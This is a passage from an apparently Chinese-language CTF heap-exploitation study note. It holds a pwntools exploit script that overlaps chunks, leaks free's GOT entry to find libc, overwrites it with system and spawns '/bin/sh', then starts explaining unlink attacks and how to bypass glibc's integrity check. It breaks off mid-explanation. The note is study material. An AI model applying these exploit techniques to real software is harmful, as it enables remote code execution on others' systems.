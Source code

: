 ```python

def show_heap(idx):
	choose(3)
	p.recvuntil(b'Index :')
	p.sendline((str(idx)))

def delete_heap(idx):
	choose(4)
	p.recvuntil(b'Index :')
	p.sendline(str(idx))

elf = ELF(elf_path)
libc = ELF(libc_path)

create_heap(0x18, b'aaaa')
create_heap(0x10, b'bbbb')
create_heap(0x10, b'cccc')
edit_heap(0, b'a'*0x18 + p64(0x61))
delete_heap(1)
create_heap(0x50, b'bbbb')
edit_heap(1, b'\x00'*0x38 + p64(0x21) + p64(0x51) + p64(elf.got['free']))
show_heap(2)
p.recvuntil(b'Content : ')
free_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.success('free_addr: ' + hex(free_addr))
libc_base = free_addr - libc.symbols['free']
system_addr = libc_base + libc.symbols['system']
ogg = [0x45216,0x4526a,0xf02a4,0xf1147]
# edit_heap(2, p64(libc_base + ogg[3]))
edit_heap(2, p64(system_addr))
create_heap(0x18, b'/bin/sh\x00')
delete_heap(3)
  
p.interactive()
```
## Unlink
unlink存在于大于fastbins大小的heap中，其目的是把一个双向链表中的空闲块拿出来（例如 free 时和目前物理相邻的 free chunk 进行合并）。其基本的过程如下
![[Pasted image 20250323162721.png]]
在free某个大小不属于fast bin的在使用的堆块P时，会触发合并操作，检查前后两个物理相邻堆块P1、P2是不是空闲，如果是空闲，就把P1/P2从原本所在的bin中unlink出来，然后跟P合并，合并后放入unsorted bin中。

unlink操作的关键一步是，FD=P->fd,BK=P->bk,FD->bk=BK,BK->fd=FD

如果把将要unlink的那个堆块（即P）的fd和bk指针修改了， FD指向需要改变值的地址，BK指向想要改成的值，当FD->bk=BK后，就实现了值的篡改。但是注意，FD->bk=FD-12(32位，size+prevsize+fd各四位)，所以篡改的地址应该要-12，这样才能实现正确的指向。

但是这样只有在低版本中行得通，高版本中新增了检查，在unlink前，先确定FD->bk=P，BK->fd=P，以防止伪造chunk。这样的话上面的办法明显就通不过检查了。于是有了另一种思路：（32位）

既然要保证FD->bk=P，BK->fd=P，那就直接让FD=P-12,BK=P-8就行了，这样
